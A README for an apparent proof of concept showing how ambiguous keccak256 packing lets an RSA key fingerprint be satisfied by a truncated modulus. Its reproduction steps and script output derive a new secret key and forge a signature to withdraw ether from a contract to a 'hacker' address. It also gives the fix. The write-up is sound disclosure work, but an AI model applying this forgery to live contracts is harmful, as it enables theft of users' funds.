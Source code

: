 # RSA public key fingerprint manipulation. 

## Description:
This example based on that keccak256 behavior:
```
keccak256("foo", "bar") == keccak256("fo", "obar")
```
Pretty interesting, right? That's works for any arrays (`String` is bytes array actually)

### Legend:
I've discovered this trick by auditing DAO.casino [contracts](https://github.com/DaoCasino/Protocol/blob/f958ecbd774c1fe0f4be5c918e2a6c065ec97296/contracts/core/oneStepGame.sol#L164), so this example related to storing a fingerprint of public RSA key by contract.
 Smartcontract may store it like that:
```
bytes32 fingerprint = keccak256(N, e); // N and e are bytes arrays
``` 
This way of public key fingerprint storing gives to key owner an opportunity to manipulate N (and e) within wide limits. And so manipulate the secret key. 

Check `index.js.es6` output below. 
### To reproduce:
1. Copy-paste `crate.sol` to remix (or use `Connect to localhost` feature) and deploy `Crate` contract.
2. `npm i`
3. Replace original `cryptico.js` to a `cryptico.js` from this repo. (I put `RSAGenerateByPQ` func there)
4. run `index.js.es6`. Output is self-explained.
5. Happy hack!

### The correct way to store RSA pub key fingerprint
Just use Merkle tree :)
```
bytes32 fingerprint = keccak256(keccak256(N), keccak256(e));
```

### Can Ethereum foundation fix that behavior?
I suppose no. The TupleHash function should be implemented (as part of cSHAKE) to fix that, but consensys would be broken (Ethereum uses [SHAKE](https://github.com/ethereum/ethash/blob/master/src/libethash/sha3.c#L3) only).
More information at [SHA-3 Derived Functions:cSHAKE, KMAC, TupleHash and ParallelHash](https://nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-185.pdf) publication.

### index.js.es6 output
```
Let's imagine someone have generated RSA keys and sent public one to Crate smartcontract
N 8fe590a2f9c8cecef2917ab577ca221091c8a092c72f61cd00b12f928500e150c53857b68f1590f0811c1d5f8414254149040bae800c6fcfe7fbff40f8e00503
e 10001
Args for submitPubKey() ["0x8f", "0xe5", "0x90", "0xa2", "0xf9", "0xc8", "0xce", "0xce", "0xf2", "0x91", "0x7a", "0xb5", "0x77", "0xca", "0x22", "0x10", "0x91", "0xc8", "0xa0", "0x92", "0xc7", "0x2f", "0x61", "0xcd", "0x00", "0xb1", "0x2f", "0x92", "0x85", "0x00", "0xe1", "0x50", "0xc5", "0x38", "0x57", "0xb6", "0x8f", "0x15", "0x90", "0xf0", "0x81", "0x1c", "0x1d", "0x5f", "0x84", "0x14", "0x25", "0x41", "0x49", "0x04", "0x0b", "0xae", "0x80", "0x0c", "0x6f", "0xcf", "0xe7", "0xfb", "0xff", "0x40", "0xf8", "0xe0", "0x05", "0x03"] , ["0x01", "0x00", "0x01"]
(Don't forget send some Ether too)

Now, you can return your Ether from Crate by returnETH call
This is a msg (address to return padded to 32 bytes) 0x0000000000000000000000004b0897b0513fdc7c541b6d9d7e929c4e5364d2db
This is a sign of addr 0x12c250a99eee73b43dfdb3cad25186f6b6944b51bee0b52041248bdedeb01d587f846a216aed3698792b630db822f79f4b8573e02f19dc7a880c004a28e48b6f
Let's check the sign. Result is  true
Ok, args for returnETH() are ["0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x4b", "0x08", "0x97", "0xb0", "0x51", "0x3f", "0xdc", "0x7c", "0x54", "0x1b", "0x6d", "0x9d", "0x7e", "0x92", "0x9c", "0x4e", "0x53", "0x64", "0xd2", "0xdb"] , ["0x8f", "0xe5", "0x90", "0xa2", "0xf9", "0xc8", "0xce", "0xce", "0xf2", "0x91", "0x7a", "0xb5", "0x77", "0xca", "0x22", "0x10", "0x91", "0xc8", "0xa0", "0x92", "0xc7", "0x2f", "0x61", "0xcd", "0x00", "0xb1", "0x2f", "0x92", "0x85", "0x00", "0xe1", "0x50", "0xc5", "0x38", "0x57", "0xb6", "0x8f", "0x15", "0x90", "0xf0", "0x81", "0x1c", "0x1d", "0x5f", "0x84", "0x14", "0x25", "0x41", "0x49", "0x04", "0x0b", "0xae", "0x80", "0x0c", "0x6f", "0xcf", "0xe7", "0xfb", "0xff", "0x40", "0xf8", "0xe0", "0x05", "0x03"] , ["0x01", "0x00", "0x01"],["0x12", "0xc2", "0x50", "0xa9", "0x9e", "0xee", "0x73", "0xb4", "0x3d", "0xfd", "0xb3", "0xca", "0xd2", "0x51", "0x86", "0xf6", "0xb6", "0x94", "0x4b", "0x51", "0xbe", "0xe0", "0xb5", "0x20", "0x41", "0x24", "0x8b", "0xde", "0xde", "0xb0", "0x1d", "0x58", "0x7f", "0x84", "0x6a", "0x21", "0x6a", "0xed", "0x36", "0x98", "0x79", "0x2b", "0x63", "0x0d", "0xb8", "0x22", "0xf7", "0x9f", "0x4b", "0x85", "0x73", "0xe0", "0x2f", "0x19", "0xdc", "0x7a", "0x88", "0x0c", "0x00", "0x4a", "0x28", "0xe4", "0x8b", "0x6f"]
That's is usual way...

Now let's hack!
Cause of keccak256("foo", "bar") == keccak256("fo", "obar"), we can cut N and find p and q for new N*
New N 8fe590a2f9c8cecef2917ab577ca221091c8a092c72f61cd00b12f928500e150c53857b68f1590f0811c1d5f8414254149040bae800c6fcfe7fbff40f8e005
New e 03010001
Notice, new N is shorter than the previous one

New N has multiple dividers. They can be computed at https://www.alpertron.com.ar/ECM.HTM e.g.
p 609dbb46adc57f706a399d8b13469d19e1f62f3585c1ec4235983c676fb86be4981e42c40e6c0af8188a76ca0ccbb
q [ '05', 'e642659687', '54c7b45346aba588c1d1db5' ]
Notice, I'm using biggest prime as p and multiplication of rest as q

New secret key (d) is 681f02e3d6bc700aa76569b38d352ca6caa96d2039cb99b0ce07ff458fbbe489ec4acaffca4b3938fb8fc7035eab52722aad2c48c958300d3c2a2ce65765c1
New message (hacker addr) 0x0000000000000000000000004b0897b0513fdc7c541b6d9d7e929c4e5364d2db
Let's sign that with a new key d 3197d09f5d772da052c6a78d9f456d4cd2be36e502ab2717036df7bb017a32760250555a762f35246d9e2cdbbed52bc93608ea76dfd244202471bc389d7b46
Check sign. Result is  true
Final step!
Args for returnETH() ["0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x4b", "0x08", "0x97", "0xb0", "0x51", "0x3f", "0xdc", "0x7c", "0x54", "0x1b", "0x6d", "0x9d", "0x7e", "0x92", "0x9c", "0x4e", "0x53", "0x64", "0xd2", "0xdb"] , ["0x8f", "0xe5", "0x90", "0xa2", "0xf9", "0xc8", "0xce", "0xce", "0xf2", "0x91", "0x7a", "0xb5", "0x77", "0xca", "0x22", "0x10", "0x91", "0xc8", "0xa0", "0x92", "0xc7", "0x2f", "0x61", "0xcd", "0x00", "0xb1", "0x2f", "0x92", "0x85", "0x00", "0xe1", "0x50", "0xc5", "0x38", "0x57", "0xb6", "0x8f", "0x15", "0x90", "0xf0", "0x81", "0x1c", "0x1d", "0x5f", "0x84", "0x14", "0x25", "0x41", "0x49", "0x04", "0x0b", "0xae", "0x80", "0x0c", "0x6f", "0xcf", "0xe7", "0xfb", "0xff", "0x40", "0xf8", "0xe0", "0x05"] , ["0x03", "0x01", "0x00", "0x01"],["0x31", "0x97", "0xd0", "0x9f", "0x5d", "0x77", "0x2d", "0xa0", "0x52", "0xc6", "0xa7", "0x8d", "0x9f", "0x45", "0x6d", "0x4c", "0xd2", "0xbe", "0x36", "0xe5", "0x02", "0xab", "0x27", "0x17", "0x03", "0x6d", "0xf7", "0xbb", "0x01", "0x7a", "0x32", "0x76", "0x02", "0x50", "0x55", "0x5a", "0x76", "0x2f", "0x35", "0x24", "0x6d", "0x9e", "0x2c", "0xdb", "0xbe", "0xd5", "0x2b", "0xc9", "0x36", "0x08", "0xea", "0x76", "0xdf", "0xd2", "0x44", "0x20", "0x24", "0x71", "0xbc", "0x38", "0x9d", "0x7b", "0x46"]
```